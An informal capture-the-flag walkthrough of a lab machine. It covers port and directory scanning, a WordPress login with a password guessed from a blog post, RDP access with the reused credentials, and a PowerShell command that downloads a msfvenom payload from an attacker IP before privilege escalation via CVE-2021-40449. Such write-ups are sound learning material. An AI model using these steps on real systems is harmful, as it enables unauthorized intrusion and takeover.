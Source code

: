 Started with a nmap scan
```
80 IIS 10.0
3389 RDP
```
Going to the site its just a normal default IIS web page so going to start a gobuster scan
```
/retro
```
going to the `/retro` we got a website and its running wordpress version `5.2.1` and we got one user `wade` and when we go to `/wp-admin/` it sends us to local host we can see the user `wade` is the only one that's been posting when looking at his profile and looking at all the articles there is one called `Ready player one` and if you read it it says that the main character has the same name as him and he made the password the name of his avatar `parzival` and we can log into the wordpress site as `wade` now we can also use these creds to log into the RDP `xfreerdp3 /v:10.10.40.39 /u:wade` and now we are on the RDP and now we have the user flag we can get a batter shell if we make a msfvenom payload and we need to use powershell to download the file `Invoke-WebRequest -Uri "http://10.6.37.77/payload.exe" -OutFile "C:\Users\Public|payload.exe"` snice we have a meterpreter session  we can run local exploit suggester and using exploit `CVE-2021-40449` and now we have system access to admin and we got the final flag 